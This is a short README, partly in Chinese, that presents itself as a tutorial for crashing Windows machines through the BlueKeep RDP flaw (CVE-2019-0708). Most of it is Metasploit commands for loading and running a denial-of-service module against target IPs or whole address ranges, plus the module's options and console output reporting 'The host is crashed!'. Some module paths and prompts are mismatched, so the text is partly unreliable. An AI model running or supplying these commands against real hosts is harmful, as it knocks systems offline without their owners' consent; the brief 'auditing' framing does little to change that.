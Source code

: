 # CVE-2019-0708

这是个针对2019-0708漏洞的蓝屏教程（大雾
https://github.com/mekhalleh/cve-2019-0708
## Verification Steps

  1. Install the module as usual (`~/.msf4/modules/auxiliary/dos/rdp/`)
  2. Start msfconsole
  3. Do: `use auxiliary/dos/rdp`
  4. Do: `set hostname 192.168.1.1`
  5. Do: `set verbose true`
  6. Do: `run`

代码为 
```
use exploit/jojo/cve_2019_0708_bluekeep_dos 

info

set rhosts 192.168.100.86(目标IP)

set verbose true 

run
```

  **RDP_CLIENT_IP**

  The client IPv4 address to report during connection. Default: 192.168.0.1

  **RDP_CLIENT_NAME**

  The client computer name to report during connection. Default: rdesktop, Unset: Randomized

  **RDP_DOMAIN**

  The client domain name to report during connect

  **RDP_USER**

  The username to report during connection. Default: Randomized

  **RHOSTS**

  Target address, address range or CIDR identifier.

    msf auxiliary(gather/behind_cloudflare) > set rhosts 192.168.1.14
    --or--
    msf auxiliary(gather/behind_cloudflare) > set rhosts 192.168.1.17-89
    --or--
    msf auxiliary(gather/behind_cloudflare) > set rhosts 192.168.1.0/24

  **RPORT**

  The target TCP port on which the RDP protocol response. Default: 3389


  **THREADS**

  The number of concurrent threads. Default: 1

  **VERBOSE**

  You can also enable the verbose mode to have more information displayed in the console.

  ## Scenarios

  ### For auditing purpose

  If successful, you must be able to obtain following status:
  ```
msf5 auxiliary(dos/rdp/cve_2019_0708_bluekeep_dos) > run

[+] 172.20.2.31:3389 - The host is crashed!
[*] 172.20.2.31:3389 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

msf5 auxiliary(dos/rdp/cve_2019_0708_bluekeep_dos) > run

[*] 172.20.2.25-35:3389 - Scanned  2 of 11 hosts (18% complete)
[*] 172.20.2.25-35:3389 - Scanned 10 of 11 hosts (90% complete)
[+] 172.20.2.31:3389 - The host is crashed!
[*] 172.20.2.25-35:3389 - Scanned 11 of 11 hosts (100% complete)
[*] Auxiliary module execution completed
  ```

















